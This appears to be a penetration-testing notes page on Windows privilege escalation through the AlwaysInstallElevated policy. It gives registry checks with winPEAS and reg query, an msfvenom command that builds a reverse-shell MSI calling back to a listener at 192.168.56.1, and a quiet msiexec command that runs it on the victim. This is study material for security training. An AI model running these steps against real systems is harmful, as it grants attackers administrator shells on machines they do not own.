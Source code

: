 # AlwaysInstallElevated

MSI files are package files used to install applications. These files run with the permissions of the user trying to install them. Windows allows for these installers to be run with elevated (i.e. admin) privileges. If this is the case, we can generate a malicious MSI file which contains a reverse shell.

The catch is that two Registry settings must be enabled for this to work. The “AlwaysInstallElevated” value must be set to 1 for both the local machine: HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer and the current user: HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer If either of these are missing or disabled, the exploit will not work.

Use winPEAS to see if both registry values are set:

```
winPEASany.exe quiet windowscreds
```

![](<../../../../.gitbook/assets/image (146) (1).png>)

Alternatively, verify the values manually:

```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

![](<../../../../.gitbook/assets/image (151) (1).png>)

{% hint style="info" %}
note that both of these registry key values should be set to 1. otherwise we cant use this attack vector.
{% endhint %}

Create a new reverse shell with msfvenom, this time using the msi format, and save it with the .msi extension:

```
msfvenom -p windows/shell_reverse_tcp lhost=192.168.56.1 lport=5555 -f msi -o VirtualBox\ VMs/shares/installer.msi
```

send the reverse shell to victim machine and run the installer with msiexec:

```
msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```

![](<../../../../.gitbook/assets/image (147).png>)
